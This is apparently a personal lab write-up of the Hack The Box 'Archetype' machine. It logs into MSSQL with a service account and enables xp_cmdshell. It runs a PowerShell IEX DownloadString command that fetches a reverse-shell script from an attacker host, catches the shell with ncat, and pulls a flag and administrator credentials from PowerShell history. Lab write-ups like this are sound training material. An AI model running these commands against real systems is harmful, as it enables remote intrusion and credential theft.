 # Archetype (10.10.10.27) MSSQL
[[archetype (10.10.10.27)]]
## Summary
- Found user flag
- Found adminstrator credentials
## Procedure
1. Anonymous Authentication (Failed)
2. Authenticate as ARCHETYPE\sql_svc
	```
	tyler@tyler-ops:~/Documents/learn/htb/starting_point/archetype$ mssqlclient.py -windows-auth ARCHTYPE/sql_svc:M3g4c0rp123@10.10.10.27
	Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

	[*] Encryption required, switching to TLS
	[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
	[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
	[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
	[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
	[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
	[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
	[!] Press help for extra shell commands
	SQL> help

		 lcd {path}                 - changes the current local directory to {path}
		 exit                       - terminates the server process (and this session)
		 enable_xp_cmdshell         - you know what it means
		 disable_xp_cmdshell        - you know what it means
		 xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
		 sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
		 ! {cmd}                    - executes a local shell cmd

	SQL>
	```
	![[Pasted image 20210816150405.png]]
3. enable_xp_cmdshell
4. Start http server
	- `python3 -m http.server`
5. Listen on port 3602
	- `ncat -nvlp 3602`
6. Execute Revershell
	```
	xp_cmdshell powershell IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.15.54:8000/scripts/twof_reverse_shell.ps1\");`
	```
	```
	tyler@tyler-ops:~/Documents/learn/htb/starting_point/archetype$ ncat -nvlp 3602
	Ncat: Version 7.91 ( https://nmap.org/ncat )
	Ncat: Listening on :::3602
	Ncat: Listening on 0.0.0.0:3602
	Ncat: Connection from 10.10.10.27.
	Ncat: Connection from 10.10.10.27:49675.
	whoami
	archetype\sql_svc
	```
	![[Pasted image 20210816154950.png]]
	- Reverse shell based on script from [PayloadsAllTheThings](https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1)
7. Found user flag
	```
	cd C:\Users\sql_svc\Desktop

	pwd

	Path
	----
	C:\Users\sql_svc\Desktop



	cat user.txt
	3e7b102e78218e935bf3f4951fec21a3
	```
	![[Pasted image 20210816155229.png]]
	- User flag: `3e7b102e78218e935bf3f4951fec21a3`
8. Found admin credentials
	```
	cd C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine

	cat ConsoleHost_history.txt
	net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
	exit
	```
	![[Pasted image 20210816160541.png]]
	- User: `administrator`
	- Pass: `MEGACORP_4dm1n!!`